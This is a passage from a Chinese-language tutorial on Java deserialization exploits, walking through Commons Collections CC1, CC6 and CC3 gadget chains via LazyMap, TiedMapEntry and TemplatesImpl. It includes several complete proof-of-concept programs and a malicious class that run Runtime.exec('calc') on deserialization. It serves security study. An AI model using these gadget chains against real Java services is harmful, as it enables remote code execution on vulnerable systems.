            Object value = this.factory.transform(key);
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
```

在`TiedMapEntry`对象初始化时会调用`get`方法,那么就会给这个map去put一个键值对.  
**反序列化之前第一次经过get:**  
  
**反序列化时第二次经过get:**  
  
这里的map中填了一对null的键值对,实际是在我们这个语句时指定的null,如果我们改成1的话键就是1,值就是null.因为`TiedMapEntry`的构造函数中只初始化了key,没有去初始化value.

```
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, null);
```

**解决方案一:**  
网上给出的大多都是在序列化之前移除`lazymap`中的这个键值对`lazymap.remove("2");`  
**解决方案二:**  
我更喜欢的是更换反射修改的位置.使用反射去修改`TiedMapEntry`而不是`LazyMap`将会一举两得的解决这个问题.既避免了`put`的时候触发`LazyMap`,也避免了初始化`TiedMapEntry`的时候修改`LazyMap`.  
**测试:**

```
package org.example;

import java.io.*;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ExceptionPredicate;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);

        String MethodName1 = "getMethod";
        Class[] ParmaType1 = {String.class, Class[].class};
        Object[] Parma1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);

        String MethodName2 = "invoke";
        Class[] ParmaType2 = {Object.class, Object[].class};
        Object[] Parma2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);

        String MethodName3 = "exec";
        Class[] ParmaType3 = {String.class};
        Object[] Parma3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);

        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap.decorate(new HashMap(), new ConstantTransformer(null)), null);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, null);

        Class clazz = TiedMapEntry.class;
        Field field = clazz.getDeclaredField("map");
        field.setAccessible(true);
        field.set(tiedMapEntry, lazymap);

        serial(hashMap);
        unserial();

    }

    public static void serial(Object obj) throws Exception {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));
        out.writeObject(obj);
    }

    public static void unserial() throws Exception {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));
        in.readObject();
    }
}
```

成功弹计算器.

## 归纳出链子

```
Gadget chain:
ObjectInputStream.readObject()
    HashMap.readObject()
        TiedMapEntry.hashCode()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

# CC3

版本要求:jdk版本<=8u65,common-collections版本<=3.2.1  
在很多时候,Runtime会被黑名单禁用.在这些情况下,我们需要去构造自定义的类加载器来加载自定义的字节码.

## 类加载机制

### 双亲委派

这里直接粘别人的了.

> 实现一个自定义类加载器需要继承 ClassLoader ，同时覆盖 findClass 方法。  
> ClassLoader 里面有三个重要的方法 loadClass() 、findClass() 和 defineClass() 。  
> loadClass() 方法是加载目标类的入口，它首先会查找当前 ClassLoader 以及它的双亲里面是否已经加载了目标类，如果没有找到就会让双亲尝试加载，如果双亲都加载不了，就会调用 findClass() 让自定义加载器自己来加载目标类。ClassLoader 的 findClass() 方法是需要子类来覆盖的，不同的加载器将使用不同的逻辑来获取目标类的字节码。拿到这个字节码之后再调用 defineClass() 方法将字节码转换成 Class 对象。

想要理解java的类加载机制,最重要的是双亲委派机制.

> 类加载器根据全限定类名判断类是否加载，如果已经加载则直接返回已加载类。如果没有加载，类加载器会首先委托父类加载器加载此类。父类加载器也会采用相同的策略，查看是否自己已经加载该类，如果有就返回，没有就继续委托给父类进行加载，直到`BootStrapClassLoader`。如果父类加载器无法加载，就会交给子类进行加载，如果还不能加载就继续交给子类加载。顺序为 `BootStrapClassLoader->ExtClassLoader->AppClassLoader->自定义类加载器` 。  
> 双亲委派机制的好处：  
> 能够有效确保一个类的全局唯一性，当程序中出现多个限定名相同的类时，类加载器在执行加载时，始终只会加载其中的某一个类。加载的先后顺序其实确定了类被加载的优先级，如果出现了限定名相同的类，类加载器在执行加载时只会加载优先级最高的那个类。

### 动态加载

先来看一段代码.

```
package org.example;  
  
public class test {  
    {  
        System.out.println(1);  
    }  
  //实例初始化块,会在实例初始化之前被调用.
    static {  
        System.out.println(2);  
    }  
  //静态初始化块,会在类被初始化时被调用
    public test() {  
        System.out.println(3);  
    }  
  //构造函数,会在实例被初始化时调用
    public void aaa() {  
        System.out.println(4);  
    }  
    //一般函数,需要手动去调用
}
```

那我们看看两个例子

```
package org.example;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        String url = "org.example.test";  
        Class<?> classname = Class.forName(url);  //2
        test test1 = (test)classname.newInstance();  //1 3
        test1.aaa();  //4
    }  
}
```

`Class.forName`除了会进行类加载以外,还会进行类的初始化.

```
package org.example;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        String url = "org.example.test";  
        ClassLoader classloader = ClassLoader.getSystemClassLoader();  
        Class<?> clazz = classloader.loadClass(url);  
        test test1 = (test)clazz.newInstance();  //2 1 3
        test1.aaa();  //4
    }  
}
```

这里要解释一下为什么在`loadClass`的时候没有输出2,而是在后面输出的.因为loadClass仅对类进行加载而不去进行初始化,因此无法触发静态初始化块.

### Templatesimpl类

这个类实现了Serializable接口,同时重写了defineClass,能够去加载自定义的类.  
#defineClass

```
Class defineClass(final byte[] b) {  
    return defineClass(null, b, 0, b.length);  
}
```

查找引用  
  
#defineTransletClasses

```
private void defineTransletClasses()  
    throws TransformerConfigurationException {  
  
    if (_bytecodes == null) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);  
        throw new TransformerConfigurationException(err.toString());  
    }  
  
    TransletClassLoader loader = (TransletClassLoader)  
        AccessController.doPrivileged(new PrivilegedAction() {  
            public Object run() {  
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());  
            }  
        });  
  
    try {  
        final int classCount = _bytecodes.length;  
        _class = new Class[classCount];  
  
        if (classCount > 1) {  
            _auxClasses = new HashMap<>();  
        }  
  
        for (int i = 0; i < classCount; i++) {  
            _class[i] = loader.defineClass(_bytecodes[i]);  
            final Class superClass = _class[i].getSuperclass();  
  
            // Check if this is the main class  
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  
                _transletIndex = i;  
            }  
            else {  
                _auxClasses.put(_class[i].getName(), _class[i]);  
            }  
        }  
  
        if (_transletIndex < 0) {  
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);  
            throw new TransformerConfigurationException(err.toString());  
        }  
    }  
    catch (ClassFormatError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
    catch (LinkageError e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
}
```

这里面调用了`defineClass`,但是是私有的方法,继续查找引用  
  
虽然getTransletIndex是public方法,但是这里选择getTransletInstance,原因下面说  
#getTransletInstance

```
private Translet getTransletInstance()  
    throws TransformerConfigurationException {  
    try {  
        if (_name == null) return null;  
  
        if (_class == null) defineTransletClasses();  
  
        // The translet needs to keep a reference to all its auxiliary  
        // class to prevent the GC from collecting them 
         AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();  
        translet.postInitialization();  
        translet.setTemplates(this);  
        translet.setServicesMechnism(_useServicesMechanism);  
        translet.setAllowedProtocols(_accessExternalStylesheet);  
        if (_auxClasses != null) {  
            translet.setAuxiliaryClasses(_auxClasses);  
        }  
  
        return translet;  
    }  
    catch (InstantiationException e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
    catch (IllegalAccessException e) {  
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);  
        throw new TransformerConfigurationException(err.toString());  
    }  
}
```

可以看到有这样一句非常的关键

```
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```

完美的解决了在使用ClassLoader时只加载不初始化的问题.  
注意这里的判断条件需要满足.

```
if (_name == null) return null;  
if (_class == null) defineTransletClasses();  
```

查找引用  
  
#newTransformer

```
public synchronized Transformer newTransformer()  
    throws TransformerConfigurationException  
{  
    TransformerImpl transformer;  
  
    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,  
        _indentNumber, _tfactory);  
  
    if (_uriResolver != null) {  
        transformer.setURIResolver(_uriResolver);  
    }  
  
    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {  
        transformer.setSecureProcessing(true);  
    }  
    return transformer;  
}
```

wc总算找到public方法了.

###### Templatesimpl利用链

那么此时就可以去归纳梳理TemplatesLmpl利用链.  
在defineTranslatedClasses中存在下面的内容

```
if (_bytecodes == null) {  
    ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);  
    throw new TransformerConfigurationException(err.toString());  
}
```

看看`_bytecodes`是干什么的.

```
private byte[][] _bytecodes = null;
```

这个数组中就是我们想要去反序列化的值.  
按照上面的逻辑去写个脚本.

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        templatesimpl.newTransformer();  
    }  
}
```

一跑发现报错,老实了  
  
跟进错误查看.发现是`defineTransletClasses`的一部分.

```
TransletClassLoader loader = (TransletClassLoader)  
    AccessController.doPrivileged(new PrivilegedAction() {  
        public Object run() {  
            return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());  
        }  
    });
```

跟进查看`_tfactory`

```
private transient TransformerFactoryImpl _tfactory = null;
```

发现初始化的值为null,所以会在调用`getExternalExtensionsMap`时出现报错.给他赋个初值.

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        templatesimpl.newTransformer();  
    }
```

跑一下,又爆了个空指针的错误  
  
这三处报错是层层套的关系,再分析`defineTransletClasses`  
当运行到这里的时候,`_auxClasses`的值为null,因此出现了空指针错误.

```
else {  
    _auxClasses.put(_class[i].getName(), _class[i]);  
}
```

然而向上追述发现这个`_auxClasses`的赋值是一个无法解决的问题

```
final int classCount = _bytecodes.length;  
_class = new Class[classCount];  
  
if (classCount > 1) {  
    _auxClasses = new HashMap<>();  
}
```

如果我们只给`_bytecodes`这个二维字节数组添加一个一维数组,那么就必然无法给`_auxClasses`赋值.  
尝试使用反射去修改值,则出现了更大的问题.发现这个`_auxClasses`是用来指定`defineClass`加载的默认的类的,如果赋值的话则会出现更多的报错和问题.  
只能使这个分支走上面的那个if

```
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  
    _transletIndex = i;  
}
```

断点调试发现此时`superClass.getName`的父类为`java.lang.Object`(这里的superClass指的就是恶意类test的父类).这不行,我们得让他的父类为`AbstractTranslet`才能够相等.改写test恶意类如下.

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
public class test extends AbstractTranslet {  
    static {  
        try {  
            Runtime.getRuntime().exec("calc");  
        } catch (Exception e) {  
            throw new RuntimeException("Exploit failed");  
        }  
    }  
  
    @Override  
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
  
    }  
  
    @Override  
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
  
    }  
}
```

idea可以自动补全没有实现的方法,有点过于nb了.  
运行成功弹出计算器.虽然还有报错,但是是在执行命令以后报的,类中没有进行捕获处理.但是我们已经执行命令了,索性也不管他.

### 对接cc1和cc6

由于我们最后使用的是`newTransformer`方法,该方法的返回值为一个`Transformer`对象.那么此时我们就有了对接cc1和cc6的能力.对接位置进行如下修改.

```
ConstantTransformer ct = new ConstantTransformer(templatesimpl);  
InvokerTransformer it = new InvokerTransformer("newTransformer", null, null);  
Transformer[] transformers = {ct, it};
```

后面直接跟`ChainedTransformer`去构造链子即可.  
`AnotationInvocationHandler`版本的利用链如下:

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();

        Class<?> clazz = templatesimpl.getClass();
        Field field = clazz.getDeclaredField("_name");
        field.setAccessible(true);
        field.set(templatesimpl, "test");

        Field field2 = clazz.getDeclaredField("_bytecodes");
        field2.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));
        byte[][] codes = {code};
        field2.set(templatesimpl, codes);

        Field field3 = clazz.getDeclaredField("_tfactory");
        field3.setAccessible(true);
        field3.set(templatesimpl, new TransformerFactoryImpl());

        ConstantTransformer ct = new ConstantTransformer(templatesimpl);
        InvokerTransformer it = new InvokerTransformer("newTransformer", null, null);
        Transformer[] transformers = {ct, it};

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        /*
        ChainedTransformer
        */

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", ""); //解释二
        Map decorated = TransformedMap.decorate(map, null, chainedTransformer);
        /*
        TransformedMap.decorate
        */

        Class clazz1 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annoConstructor = clazz1.getDeclaredConstructor(Class.class, Map.class);
        annoConstructor.setAccessible(true);
        Object poc = annoConstructor.newInstance(Target.class, decorated); //解释一
        /*
        AnnotationInvocationHandler
        */

        serial(poc);
        unserial();
    }

    public static void serial(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));
        out.writeObject(obj);
    }

    public static void unserial() throws IOException, ClassNotFoundException {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));
        in.readObject();
    }
}
```

`LazyMap`版本的利用链如下

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
import java.io.*;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.ExceptionPredicate;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.map.LazyMap;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
  
import java.lang.reflect.*;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        ConstantTransformer ct = new ConstantTransformer(templatesimpl);  
        InvokerTransformer it = new InvokerTransformer("newTransformer", null, null);  
        Transformer[] transformers = {ct, it};  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap.decorate(new HashMap(), new ConstantTransformer(null)), null);  
  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        hashMap.put(tiedMapEntry, null);  
  
        Class clazz1 = TiedMapEntry.class;  
        Field field1 = clazz1.getDeclaredField("map");  
        field1.setAccessible(true);  
        field1.set(tiedMapEntry, lazymap);  
  
        serial(hashMap);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws Exception {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws Exception {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

归纳总结得出利用链:  
cc1出口的:

```
Gadget chain:
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        AbstractInputCheckedMapDecorator.MapEntry.setValue()
            TransformedMap.checkSetValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                                TemplatesImpl.defineTransletClasses()
                                    TemplatesImpl.defineClass()
                    InvokerTransformer.transform()
```

cc6出口的:

```
Gadget chain:
ObjectInputStream.readObject()
    HashMap.readObject() 
        TiedMapEntry.hashCode()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                                TemplatesImpl.defineTransletClasses()
                                    TemplatesImpl.defineClass()
                    InvokerTransformer.transform()
```

### 绕过InvokerTransformer

然而我们对ysoserial工具进行反编译,发现他的cc2的payload不是像我们上面那样写的,而是绕过了`InvokerTransformer`.  
查找`TemplatesImpl`中`newTransformer`的用法  
